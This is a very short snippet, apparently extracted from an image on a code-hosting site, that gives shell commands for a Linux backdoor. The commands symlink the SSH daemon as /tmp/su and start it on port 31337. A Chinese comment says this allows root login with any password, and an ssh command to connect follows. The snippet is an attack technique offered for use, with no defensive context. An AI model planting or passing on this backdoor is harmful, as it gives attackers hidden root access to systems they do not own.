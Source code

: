 	>ln -sf /usr/sbin/sshd /tmp/su;/tmp/su -oPort=31337;
	执行后开启31337端口，使用root任意密码登录
	>ssh root@192.168.1.1 -p 31337